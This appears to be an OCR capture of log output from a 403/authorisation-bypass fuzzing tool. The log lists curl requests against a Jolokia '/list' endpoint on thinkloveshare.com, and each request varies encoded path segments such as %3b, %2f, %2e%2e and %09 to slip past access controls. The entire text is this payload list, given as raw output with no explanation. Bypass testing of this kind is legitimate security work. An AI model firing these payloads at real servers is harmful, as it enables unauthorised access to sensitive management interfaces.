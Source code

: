 2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%3b%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%3b%2f%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%3f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%3f///list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b/..//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b//%2f..///list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b/%2e.//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b/%2e%2e/..%2f%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b/%2f%2f..///list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b%09//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b%2f..//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b%2f%2e.//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b%2f%2e%2e//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b%2f%2e%2e%2f%2e%2e%2f%2f//list’